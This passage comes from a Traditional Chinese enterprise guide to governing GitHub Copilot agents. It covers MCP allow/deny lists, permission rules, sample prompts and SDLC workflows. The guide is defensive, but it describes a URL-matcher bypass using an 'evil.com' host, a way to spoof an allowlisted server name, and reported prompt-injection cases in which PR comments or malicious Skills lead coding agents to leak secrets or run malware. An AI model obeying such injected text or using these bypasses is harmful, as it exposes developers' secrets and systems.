上述信任均可透過 Command Palette **撤銷**。企業在發生事件（例如某套件被揭露為惡意）時，應將「撤銷信任」列入標準應變步驟，而不是只發一封信叫大家「不要用」。

> ⚠️ **實務提醒（建議架構）**：第 14.4 節描述的是「設定檔放哪裡」，本節描述的是「設定了之後還需要誰點頭」。兩者必須同時寫進企業 SOP，否則會出現「設定都發下去了，但每位開發者還是自己按一次信任」的治理破口。

### 14.8 MCP 的企業層強制治理：Allowlist 與 Denylist

> 本節為第四版新增。第 14.7 節談的是**使用者端的信任提示**——但信任提示的本質是「請使用者自己判斷」，在企業規模下這不是可靠的控制。若要做到「這台 MCP Server 在本企業內根本無法被啟動」，必須使用第 20.5 節 `managed-settings.json` 的 `allowedMcpServers` 與 `deniedMcpServers`（官方已實作，2026-08-31 查證）。

#### 14.8.1 兩個鍵的合成語意（最容易誤解的地方）

| 鍵 | 未設定時 | 多來源合成方式 | 實務意義 |
|---|---|---|---|
| `allowedMcpServers` | **省略＝允許所有 Server**（仍受 deny 規則限制）；設為**空陣列＝封鎖所有 Server**，僅保留內建預設 Server | **取交集**——一台 Server 必須被**每一個**宣告了此鍵的來源允許，才能執行 | 加了越多層管理來源，允許範圍只會越窄，不會越寬 |
| `deniedMcpServers` | 無封鎖 | **取聯集**——被**任一**來源封鎖，即對所有人封鎖 | 任一層都能單方面加上封鎖 |

**Deny 恆優先於 Allow**：同時符合兩張清單的 Server 一律被封鎖。**唯一例外**是第一方 Copilot Server（例如內建的 GitHub MCP Server），官方明訂其**豁免於 deny 規則、無法被封鎖**。

#### 14.8.2 三種比對子（每筆項目只能擇一）

| 屬性 | 比對行為 | 適用 Server |
|---|---|---|
| `serverName` | 完全比對**使用者自行指定的 Server 標籤**，**不支援萬用字元** | 任何 Server。In-memory Server **只能**用此屬性比對 |
| `serverUrl` | 比對遠端 Server URL，支援 `*` 萬用字元用於子網域或路徑前綴，例如 `https://mcp.example.com/*`、`https://*.internal.example.com/*` | 走 HTTP 或 SSE 的**遠端** Server；即使本地 Server 有 URL 也不適用 |
| `serverCommand` | **完全比對**指令與每一個參數，例如 `["npx", "-y", "my-mcp-server"]`；**不支援萬用字元與命令列展開** | 走 stdio 的**本地** Server；即使遠端 Server 有 command 也不適用 |

> ⚠️ **`serverName` 是最弱的比對子，不要用它做安全控制。** 官方直接寫明：因為 **Server 名稱是使用者自己取的**，若你要強制某台 Server 的身分，請改用 `serverUrl` 或 `serverCommand`。實務上這代表：用 `serverName: "github"` 做允許清單，等於任何人只要把自己的惡意 Server 取名叫 `github` 就能通過——這是典型的偽造漏洞。

#### 14.8.3 URL 正規化：官方內建的繞過防護（官方已實作）

在比對 `serverUrl` 之前，Client 會先對 pattern 與實際 URL **同時**做正規化，這一段直接對應 OWASP 的 URL 混淆／解析器差異類攻擊：

- 通訊協定與主機名轉為小寫
- 國際化或 Unicode 主機名轉為 Punycode（防止同形異義字攻擊）
- 移除預設埠（HTTP 的 `:80`、HTTPS 的 `:443`）
- 解碼主機名中的百分號編碼位元組——例如 `%65vil` 會還原成 `evil`
- 移除 URL fragment 與 DNS 名稱結尾的點號
- **禁止 authority 區段的萬用字元跨越 `/` 邊界比對到路徑**

最後一項尤其重要：它防止 `https://*.example.com` 這種 pattern 被 `https://evil.com/.example.com/...` 之類的構造騙過。

#### 14.8.4 企業導入建議（建議架構）

| 階段 | `allowedMcpServers` | `deniedMcpServers` | 說明 |
|---|---|---|---|
| **觀察期** | 省略（允許所有） | 列入已知高風險項目，例如把整個檔案系統根目錄掛上去的 `["npx","-y","@modelcontextprotocol/server-filesystem","/"]` | 先蒐集實際使用清單，不阻斷開發 |
| **收斂期** | 以 `serverCommand`／`serverUrl` 明列已核准 Server | 沿用並持續擴充 | 允許清單以**指令或 URL**為準，**不要用 `serverName`** |
| **封閉期** | 設為空陣列或僅保留企業自建與第一方 Server | 沿用 | 僅保留內建預設 Server 與企業自建 Server |

此鍵可用第 20.5 節的 `overridable` 機制做企業團隊分層：企業層以 `{ "overridable": [...] }` 包住比對子物件，各團隊檔案再以一般語法定義自己的允許與封鎖清單。這讓「研發團隊可用 Playwright MCP、財會團隊不可」得以在同一份治理架構下實現。

> ⚠️ **與第 14.7 節的分工必須寫清楚**：`allowedMcpServers`／`deniedMcpServers` 是**硬邊界**（Server 根本起不來）；第 14.7 節的信任提示是**軟邊界**（提醒使用者做判斷）。企業 SOP 應明確寫成兩層：硬邊界由 IT 部署、開發者無感；軟邊界仍需教育訓練，因為允許清單內的 Server 一樣可能在某次更新後行為改變。

### Scenario

某團隊為了讓 Copilot 能查詢生產資料庫，直接把生產環境的 DB 帳密寫進 `.vscode/mcp.json` 並提交到 Repository。**這是嚴重的安全事故**：MCP 設定檔若含有 Secret，一旦提交到版控就等於外洩。正確做法是透過環境變數或企業密鑰管理系統注入認證資訊，且資料庫帳號應僅具唯讀權限、限定於非生產環境。

### AI Prompt 範例

```text
角色：你是負責 MCP 導入的 Platform Engineer。

任務：請幫我們的企業 Vue 3 + Spring Boot 專案設計一份
.vscode/mcp.json，包含 GitHub MCP（官方提供）與一個唯讀的
PostgreSQL Database MCP（僅限測試環境資料庫）。

限制：
1. 資料庫連線字串與帳密一律用環境變數注入，不可寫死在 JSON 中
2. 請說明如何確認該 PostgreSQL MCP Server 套件的來源可信
   （依第 21 章 Checklist）
3. 請額外說明：若之後要在 Copilot Code Review 情境也用到這個
   MCP，是否需要額外設定（依 14.2 補充說明的 2026-07-29 GA 現況）
```

### 本章 Checklist

- [ ] MCP 設定檔中**不含**任何硬編碼 Secret（一律用環境變數注入）
- [ ] 已將「MCP Server 信任提示」與「撤銷信任」列入企業 SOP 與應變步驟（14.7）
- [ ] 資料庫類 MCP 一律使用最小權限（唯讀、非生產環境）帳號
- [ ] 已用 14.6 清單分清楚哪些 MCP 是官方提供、哪些需要企業自行審查
- [ ] 已理解 MCP／Skill／Plugin 三者的本質差異（14.3）
- [ ] 已在 `managed-settings.json` 部署 `allowedMcpServers`／`deniedMcpServers` 硬邊界，未僅倚賴使用者信任提示（14.8）
- [ ] 允許清單一律以 `serverCommand` 或 `serverUrl` 比對，**未**使用可被使用者偽造的 `serverName`（14.8.2）
- [ ] 已知悉 allow 取交集、deny 取聯集，且第一方 Copilot Server 豁免於 deny（14.8.1）

---

## 15. Web Application 開發實戰

> ⚠️ 本章案例為建議架構，示範如何用第 6-14 章已驗證的機制組合出完整開發流程，情境本身為教學示範用途之原創設計。

### 15.1 技術堆疊

- **前端**：Vue 3、TypeScript、Tailwind CSS、PrimeVue、Pinia、i18n
- **後端**：Java 25、Spring Boot 4.x、REST API、Clean Architecture、Hexagonal Architecture、Maven
- **資料庫**：PostgreSQL、Oracle、DB2
- **測試**：JUnit 5、Playwright、JMeter
- **Infra**：Podman、Kubernetes、Jenkins、GitHub Actions

### 15.2 開發流程



### 15.3 各階段對應的客製化資源

| 階段 | 使用的資源 |
|---|---|
| Requirements → Architecture | `system-architect.agent.md` |
| Frontend／Backend 實作 | `frontend-architect.agent.md`／`backend-architect.agent.md` + `web-application-development` Skill + `java.instructions.md`／`vue.instructions.md` |
| Database | `database-agent.agent.md` |
| Test | `test-agent.agent.md` |
| Security | `security-agent.agent.md` + `security-review` Skill |
| Code Review | `code-review-agent.agent.md` |
| Deployment | `devops-agent.agent.md` + `pre-commit-quality-gate` Hook |

### Scenario

某企業導入本流程後，新功能開發從「需求 → 上線」平均時間縮短，但**真正的價值不在於程式碼生成速度**，而在於：每個 Agent 都有明確職責邊界，Code Review 與 Security Review 成為流程中固定的關卡而非事後補救，減少了「AI 生成程式碼但沒人真正審查」的風險。

### AI Prompt 範例

```text
角色：你是 backend-architect Agent。

情境：需要新增一個「訂單查詢」REST API，供前端訂單列表頁使用。

Context：
- 遵循 .github/instructions/java.instructions.md 的規範
- 遵循 .github/skills/web-application-development/SKILL.md 的實作步驟
- 資料庫為 PostgreSQL，訂單資料表為 orders，已有 OrderEntity

Objective：實作 GET /api/orders 端點，支援分頁與依狀態篩選。

Constraints：
- Controller 只做參數驗證與轉發，不寫商業邏輯
- 回應格式須為 ApiResponse<PagedResult<OrderDto>>
- 需補上對應的 JUnit 5 測試

Steps：
1. 設計 DTO 與分頁參數物件
2. 實作 Service 層查詢邏輯
3. 實作 Controller
4. 撰寫測試

Validation：mvn test 需全數通過

Output Format：列出新增/修改的檔案清單，並附上關鍵程式碼片段
```

### 本章 Checklist

- [ ] 已對照 15.3 表格，確認每個開發階段都有對應的客製化資源
- [ ] Security Review 與 Code Review 已成為流程固定關卡，而非選擇性步驟
- [ ] 已在沙盒專案完整跑過一次本流程，驗證 Agent 間 Handoff 正常

---

## 16. 逆向工程實戰

> ⚠️ 本章案例為建議架構，情境為教學示範用途之原創設計。

### 16.1 情境輸入

```text
Legacy Web Application
Legacy Java
Legacy JSP
Legacy Servlet
Legacy SQL
Stored Procedure
Batch
Configuration
Logs
```

### 16.2 分析流程（由 `reverse-engineering-agent` 依 `reverse-engineering` Skill 執行）



### 16.3 最終產出

```text
Reverse Engineering Report
Architecture Document
Dependency Map
API Catalog
Database Catalog
Business Rule Catalog
Risk Register
Modernization Roadmap
```

**產出內容示意**（以 `business-rule-catalog.md` 的其中兩條為例，而非只列檔名，讓讀者了解實際產出長什麼樣子）：

```markdown
# Business Rule Catalog

## BR-014：訂單逾時自動取消

- **來源程式碼**：`OrderBatchServlet.java` 第 88-112 行
- **規則描述**：訂單建立後若 30 分鐘內未完成付款，批次作業會將訂單狀態改為 `CANCELLED`
  並釋放已鎖定的庫存。
- **信心等級**：高（邏輯清楚，且有對應的 Log 訊息 `"Auto-cancel order due to timeout"` 佐證）
- **建議處理**：現代化時建議改為可設定的逾時時間（目前硬編碼為 `1800000` 毫秒）

## BR-015：VIP 會員折扣疊加規則

- **來源程式碼**：`PricingCalculator.java` 第 210-245 行，搭配 `MEMBER_LEVEL` 資料表
- **規則描述**：程式碼顯示 VIP 會員折扣與促銷折扣「不可疊加」，但 `PricingCalculator`
  第 240 行有一段被註解掉的邏輯疑似曾支援疊加，且無對應的商業文件可佐證目前規則是否為刻意設計。
- **信心等級**：⚠️ **需人工確認**——無法從程式碼判斷「不可疊加」是原始需求，還是歷史 Bug 修復後未清理的殘留邏輯
- **建議處理**：現代化前必須先向業務單位確認正確規則，不可直接沿用現有程式碼行為
```

這種「來源程式碼＋規則描述＋信心等級＋建議處理」的四欄結構，可套用到全部 8 份產出文件，讓每一條分析結果都能追溯回原始程式碼位置，也讓「需人工確認」的項目清楚標示、不會被淹沒在報告中。

### 16.4 重要限制（重申）

依第 8.8 節 Skill 定義：`reverse-engineering-agent` **只分析、不修改任何原始碼**；若無法確認某段程式碼的商業意圖，必須在報告中明確標示「需人工確認」，不可臆測。

### Scenario

某企業有一套 15 年歷史的 JSP + Servlet 訂單系統，過去每次新人要維護都要花數週理解程式邏輯。導入本流程後，第一次執行產出的 Business Rule Catalog 雖然不完美（約 15% 條目標示為「需人工確認」），但已足夠讓新人在 2-3 天內建立整體認知，大幅降低 Onboarding 成本。**教訓**：逆向工程 Agent 的產出是「加速理解的起點」，不是「100% 正確的最終文件」，務必保留人工確認機制。

### AI Prompt 範例

```text
角色：你是資深 Software Architect（reverse-engineering-agent）。

任務：分析此 Repository（Legacy JSP + Servlet + Oracle Stored Procedure 訂單系統）。

不可修改任何原始碼。

請依序執行：
1. Repository Discovery：技術堆疊、建置工具
2. Code Inventory：模組/類別數量統計
3. Dependency Analysis
4. Architecture Discovery（若無明確分層，需明確指出）
5. Database Analysis（含 Stored Procedure 邏輯摘要）
6. API Analysis（所有 Servlet/JSP 進入點）
7. Security Analysis
8. Batch Analysis
9. Business Rule Extraction（無法確認商業意圖者，標示「需人工確認」）
10. Architecture Diagram（Mermaid）
11. Technical Debt Analysis
12. Modernization Recommendation

輸出至 docs/reverse-engineering/ 底下對應檔案。
```

### 本章 Checklist

- [ ] 已確認 `reverse-engineering-agent` 的工具授權為唯讀
- [ ] 產出報告中「需人工確認」條目已排入後續人工複核排程
- [ ] 8 項最終產出文件已全數產出且存放於統一目錄

---

## 17. Framework Migration 實戰

> ⚠️ 本章案例為建議架構，情境為教學示範用途之原創設計。

### 17.1 案例：Spring Boot 3.x → Spring Boot 4.x



### 17.2 各階段使用的客製化資源

> ⚠️ **釐清「Security Analysis」的歸屬**：17.1 流程圖中的 `Security Analysis` 節點屬於**升級前的評估階段**，聚焦「這次版本升級本身會不會引入安全性變更」（例如 Jakarta namespace 遷移、預設安全設定變更），由 `migration-agent` 搭配 `framework-migration` Skill 執行，**不是**由 `security-agent` 負責。`security-agent` 的角色是在**變更完成之後**，於 Code Review 階段對實際程式碼異動做獨立的安全複查（兩者是「升級相容性檢查」與「異動後安全審查」兩個不同性質的檢查，並非重複執行同一件事）。

| 階段 | 資源 |
|---|---|
| Current System Assessment ～ Test Analysis（含評估階段的 Security Analysis） | `migration-agent.agent.md` + `framework-migration` Skill（第 8.9 節） |
| Migration Plan 人工核准 | 第 31 章 Quality Gate「Implementation Gate」 |
| Automated Changes | `migration-agent.agent.md`（唯有核准後才可執行） |
| Build／Test／Regression Test | `pre-commit-quality-gate` Hook（第 13.4 節）+ `test-agent.agent.md` |
| Code Review（含 `security-agent` 對實際程式碼異動的安全複查） | `code-review-agent.agent.md` + `security-agent.agent.md` |
| Migration Report | `documentation-agent.agent.md` |

### 17.3 六大機制如何共同完成 Migration

- **Instructions**：定義升級後的新規範（例如 Jakarta namespace 命名規則）寫入 `java.instructions.md`
- **Skills**：`framework-migration` Skill 封裝分析流程，確保每次分析步驟一致
- **Agents**：`migration-agent` 執行變更，`security-agent`／`code-review-agent` 把關
- **Hooks**：`preToolUse`／`postToolUse` Hook 在變更前後自動跑測試與安全掃描
- **Plugins**：可將上述資源打包為 `spring-boot-migration-plugin`，供多個專案共用同一套升級能力
- **MCP**：若需要查詢外部相依套件的 CVE 資料庫，透過對應 MCP Server 取得即時資訊

### Scenario

某企業原本打算讓單一 Agent 一次完成整個 Spring Boot 3→4 升級，結果因變更範圍過大、難以定位問題而回滾整個升級。改用 17.1 的分階段流程（每個 Gate 都要求可獨立驗證與回滾）後，即使升級中途發現問題，也只需回滾單一階段而非整個專案。

### AI Prompt 範例

```text
角色：你是 migration-agent，正在執行 Spring Boot 3.x → 4.x 升級評估。

任務：分析本 Repository 的依賴清單與程式碼，產出符合 17.2 表格
定義的評估階段產出物（Dependency Analysis／Breaking Change
Detection／Configuration Analysis／Source Code Analysis／
Security Analysis／Test Analysis），最終彙整為 Migration Plan。

限制：
1. Security Analysis 階段請聚焦「升級本身帶來的安全性變更」
   （例如 Jakarta namespace、預設安全設定），
   不要跟 code-review 階段的異動後安全複查混為一談（依 17.2 說明）
2. Migration Plan 完成後，明確標示「等待人工核准」，
   不可自行進入 Automated Changes 階段
3. 每個 Breaking Change 都要附上官方 Migration Guide 的對應章節出處，
   不可僅憑推測列出
```

### 本章 Checklist

- [ ] Migration Plan 已設置人工核准關卡，不可跳過
- [ ] 每個升級階段都可獨立驗證、獨立回滾
- [ ] Breaking Change Detection 已對照官方 Migration Guide 逐條核對，而非僅憑 AI 推測

---

## 18. AI-Assisted SDLC

### 18.1 全生命週期圖



### 18.2 awesome-copilot 在每個階段的介入方式

| 階段 | 介入方式 |
|---|---|
| Requirement／Analysis | `AGENTS.md`／`copilot-instructions.md` 提供專案背景，`project-coordinator` 協助拆解任務 |
| Architecture／Design | `system-architect`／`frontend-architect`／`backend-architect` Agent |
| Coding | Custom Agents + Skills + Instructions 組合，依 15 章流程 |
| Testing | `test-agent` + JUnit 5／Vitest／Playwright |
| Security | `security-agent` + `security-review` Skill |
| Code Review | `code-review-agent` |
| CI/CD | Hooks（`pre-commit-quality-gate`）+ GitHub Actions／Jenkins |
| Deployment | `devops-agent` |
| Monitoring | Monitoring MCP（第 14.6 節，需自行審查來源） |
| Feedback | 第 30 章 KPI 量測結果回饋到下一輪 Requirement |

### Scenario

某企業導入 AI Coding Agent 初期，只把 Copilot 用在 Coding 與 Code Review 兩個階段，Requirement／Architecture 仍完全靠人工會議與 Word 文件溝通，導致 Agent 產出的程式碼經常與架構決策脫節（例如 Agent 不知道某個模組已決議要拆成獨立服務）。導入 18.2 的全生命週期介入方式後，`system-architect` 在 Architecture／Design 階段就先產出可被下游 Agent 讀取的設計文件（存放於 `docs/architecture/`，比照第 10.3 節 Shared Artifacts 慣例），Coding 階段的 Agent 才能延續一致的架構決策，而不是各自猜測。

### 本章 Checklist

- [ ] 已對照 18.2 表格，確認每個 SDLC 階段都有明確的 Copilot 介入方式
- [ ] Monitoring／Feedback 階段已納入流程，而非只做到 Deployment 就結束

---

## 19. Spec-Driven Development 整合

### 19.1 整合流程



### 19.2 避免 AI Agent 擴權的防護措施

| 風險 | 防護措施 |
|---|---|
| 自行修改需求 | `system-architect` 等 Agent 設為唯讀（`tools: read, search`），任何需求變更須由人類明確更新 Specification 文件 |
| 過度實作（Scope Creep） | Implementation Plan 須經人工核准（第 31 章 Quality Gate），Agent 不可自行擴大實作範圍 |
| 修改不相關程式 | `AGENTS.md` 明確列出「不可修改」清單（如既有 migration 檔案），Hook 可加入變更範圍檢查 |
| 跳過測試 | `pre-commit-quality-gate` Hook 強制執行測試，屬確定性自動化，不受 AI 判斷影響 |
| 忽略 Architecture Rules | `*.instructions.md` 自動注入架構規則，`system-architect` 負責審查是否符合 |

### Scenario

某團隊發現 Coding Agent 在實作「訂單查詢」功能時，「順便」重構了完全不相關的付款模組。追查後發現該 Agent 的 Prompt 過於開放（「請改善這個系統」），缺乏明確的 Scope 邊界。**修正**：改用 19.1 的 Spec-Driven 流程，每個任務都先有明確的 Implementation Plan 並經人工核准，Agent 只能在核准範圍內執行。

### 本章 Checklist

- [ ] 每個實作任務都有對應的 Specification／Implementation Plan
- [ ] Agent 的工具授權已依角色收斂到最小必要範圍
- [ ] 已建立「不可修改清單」機制，防止 Agent 修改不相關程式

---

## 20. 企業級 AI Coding Governance

### 20.1 Governance 模型

| 類別 | 內容 |
|---|---|
| Approved Agents | 經審查核准可企業內使用的 `.agent.md` 清單 |
| Approved Skills | 經審查核准的 `SKILL.md` 清單 |
| Approved Plugins | 經審查核准的 `plugin.json` 清單 |
| Approved MCP Servers | 經審查核准、明確定義權限範圍的 MCP Server 清單 |
| Approved Models | 企業允許使用的底層模型清單（依合規/成本考量） |
| Security Policies | 對應第 21 章安全評估流程 |
| Access Control | 誰可以安裝／修改 Org 層級的客製化資源 |
| Audit Log | 記錄客製化資源的安裝、修改、移除歷程 |
| Version Control | 所有客製化資源納入 Git 版控，比照一般程式碼管理 |
| Change Management | 變更需經 PR Review，比照第 28 章 Resource Lifecycle |

### 20.2 安全風險類別

| 風險 | 說明 |
|---|---|
| Prompt Injection | 惡意內容（如網頁、文件）誘導 Agent 執行非預期動作 |
| Tool Injection | 惡意 Skill／Plugin 透過過度授權的 `tools`／`allowed-tools` 取得非預期能力 |
| Malicious Skill | 社群 Skill 內含惡意腳本或誤導性 `description` |
| Malicious Plugin | 社群 Plugin 打包了未經審查的 Agent／Hook／MCP |
| MCP Supply Chain | MCP Server 套件本身遭竄改或依賴鏈遭污染 |
| Secret Leakage | 客製化資源中硬編碼 Secret，或 Hook／MCP 設定不當導致外洩 |
| Data Exfiltration | Agent 透過 MCP／Hook 將內部資料傳送到未授權的外部端點 |
| Excessive Permission | Agent／Skill 的工具授權超出實際需要（違反最小權限原則） |
| Command Execution | Hooks／Plugin 可執行任意 Shell 指令，須嚴格審查 |
| Dependency Risk | Plugin／MCP 依賴的第三方套件存在已知漏洞 |

### 20.3 Governance Workflow



### 20.4 已知威脅情資（2026，Source-confirmed）

20.2 列出的風險類別並非紙上談兵——以下是 2026 年已被資安研究機構與媒體證實的真實案例，企業撰寫 Governance 政策時可直接引用作為風險佐證：

| 威脅 | 具體情資 | 來源 |
|---|---|---|
| GitHub 留言注入（Comment Prompt Injection） | 研究人員證實 **Claude Code、Google Gemini CLI、GitHub Copilot Agent** 皆可被精心設計的 PR 標題、留言、Issue 內容「駭持」，誘導 Agent 執行非預期動作（例如洩漏 Secret） | SecurityWeek（2026） |
| 惡意 Skill 供應鏈風險 | HiddenLayer 研究指出，Agent Skills **未經加密簽章、審查機制薄弱**，任何有 GitHub 帳號的人都能發布，已出現真實案例：惡意 Skill 誘導 Agent 悄悄下載並執行惡意程式，或將 Agent 暗中拉入加密貨幣挖礦/詐騙流程 | HiddenLayer,《The Next AI Supply Chain Risk: Malicious Skills in Agentic AI》 |
| Agentic Workflow 漏洞遭主動攻擊 | GitHub Agentic Workflows 曾出現已被實際攻擊利用（active exploitation）的 Prompt Injection 漏洞，直接威脅軟體供應鏈安全 | Rescana 資安情資（2026） |
| 產業現況統計 | OWASP 統計：**73% 的正式上線 AI 應用存在可被 Prompt Injection 利用的缺陷**，但**僅 34.7% 的企業已建立對應防禦機制** | OWASP（2026 年相關報告） |

> ⚠️ **企業啟示**：上述情資直接對應 20.2 的 Prompt Injection、Malicious Skill、MCP Supply Chain 三類風險並非理論假設，而是已發生的真實攻擊模式。20.1 的 Governance 模型與第 21 章的安全評估 Checklist **不是可有可無的官僚流程**，而是對應這些已知威脅的具體防禦措施；企業在說服管理層投入 Governance 資源時，可直接引用本節情資作為風險量化依據。

### 20.5 企業級集中管控：`managed-settings.json`

前面幾節的治理措施多半落在 Repository 層級，但第 6.6 節已指出治理上最大的破口是：**開發者可以自行安裝 GitHub Copilot app 或使用 Copilot CLI，繞過 IDE 與 Repository 層級的所有限制**。要堵住這個破口，必須使用企業管理者層級的 `managed-settings.json`（官方已實作）。

#### 定位：客製化資源的最上層 Scope

呼應第 6.3 節的 Scope 表，`managed-settings.json` 是位於最上層、**由企業 IT 部署、開發者無法自行覆寫**的設定層：



（實線＝由上而下的設定層級關係；虛線＝跨 harness 的生效範圍，這正是它與 Repository 層級設定的關鍵差異。）

#### 設定優先序：四層來源與「最嚴格方向」合成（第四版新增，官方已實作）

當多個設定來源同時存在時，**排在前面的優先於排在後面的**：

1. **MDM-managed settings**（行動裝置管理／端點管理工具下發）
2. **Server-managed settings**（企業伺服器端下發）
3. **File-based settings**（檔案佈署）
4. **User-level settings**（使用者自己的設定）

但官方明訂**兩個例外**：`sandbox` 與 `permissions.deny`／`permissions.ask`／`permissions.allow` 這幾個鍵，**跨不同下發方式時是以「最嚴格方向」合成，而不是單純由高優先序覆蓋**。實務含意是：一旦任何一層加了 deny 規則，其他層都無法把它放寬回來——這正是合規稽核想要的行為。

#### 十大支援鍵一覽（第四版全面補齊，官方已實作）

第三版僅描述了 Plugin 相關的兩個能力；官方 `managed-settings.json` 的實際治理面遠大於此：

| 鍵 | 用途 | 治理效果 |
|---|---|---|
| `model` | 把 Auto model selection 設為新對話的預設模型 | 統一模型成本與行為基準 |
| `permissions.deny` | 無條件封鎖特定操作 | **硬邊界**。任一來源設下的 deny 對所有使用者生效，且無法被 ask／allow 抵銷 |
| `permissions.ask` | 要求特定操作前必須取得**當次、全新的人工核准** | **無法**被 bypass 模式、自動核准設定、Hook 或先前已保存的授權滿足；每次都會重新詢問 |
| `permissions.allow` | 允許特定操作免詢問直接執行 | 有效允許清單是**所有宣告來源的交集**（非聯集）——比想像中嚴格 |
| `permissions.disableBypassPermissionsMode` | 停用 bypass／YOLO 全開模式 | 見下方專段 |
| `enabledPlugins` | 依 key 強制啟用或封鎖特定 Plugin | 企業標準能力自動下發 |
| `extraKnownMarketplaces` | 追加使用者可存取的 Plugin Marketplace | 開放企業自建來源 |
| `strictKnownMarketplaces` | 把 Plugin 安裝限縮到明列的 Marketplace | **空陣列＝完全封鎖** |
| `telemetry` | 設定 OpenTelemetry 匯出，把 Copilot 使用資料導到自有 Collector | 支援 Copilot CLI 與 VS Code |
| `remoteControl` | 限制本機工作階段是否可被遠端控制 | `disabled`／`requireSSO`／`enabled` 三種模式 |
| `allowedMcpServers`／`deniedMcpServers` | MCP Server 允許／封鎖清單 | 見第 14.8 節 |
| `sandbox` | 強制 Copilot CLI 本地沙箱的**最低**限制 | 見第 20.6 節 |

#### `permissions` 的選擇器語法（官方已實作）

`deny`／`ask`／`allow` 三者的優先序是 **deny > ask > allow**。只要任一有效來源定義了任何權限規則、或宣告了 `allow` 清單，**未被匹配到的操作就預設為需要核准**。規則使用以下選擇器：

| 選擇器 | 比對對象 |
|---|---|
| `Shell(...)` | Shell 指令。用 `<command> *`（例如 `git push *`）比對指令前綴，否則為完全比對。`Bash(...)` 是 `Shell(...)` 的相容別名；`PowerShell(...)` 屬同一族，指令比對**不分大小寫** |
